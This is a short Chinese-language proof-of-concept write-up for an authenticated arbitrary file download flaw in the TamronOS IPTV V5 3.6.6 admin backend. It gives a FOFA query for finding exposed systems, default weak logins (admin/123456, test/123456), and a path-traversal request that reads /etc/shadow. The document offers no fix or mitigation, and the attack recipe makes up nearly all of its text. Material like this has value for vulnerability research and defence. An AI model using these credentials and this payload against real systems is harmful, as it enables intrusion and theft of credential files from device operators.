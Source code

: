 ## TamronOS IPTV系统后台任意文件下载

## 漏洞描述

TamronOS IPTV系统存在任意文件下载

## 漏洞影响

> TamronOS IPTV V5 3.6.6

## FOFA

> title="TamronOS IPTV系统"

## POC

1）登录界面

![1](resource/TamronOS-IPTV/1.png) 

2）该系统默认弱口令admin/123456,登录后的界面如下也可以试试test/123456

![2](resource/TamronOS-IPTV/2.png)

4）存在下载的地方，下载抓包

![3](resource/TamronOS-IPTV/3.png)

 ![4](resource/TamronOS-IPTV/4.png)

修改参数，读取文件成功POC如下 

```
GET /download/backup?name=./../../../../../etc/shadow
```

![5](resource/TamronOS-IPTV/5.png)

![6](resource/TamronOS-IPTV/6.png)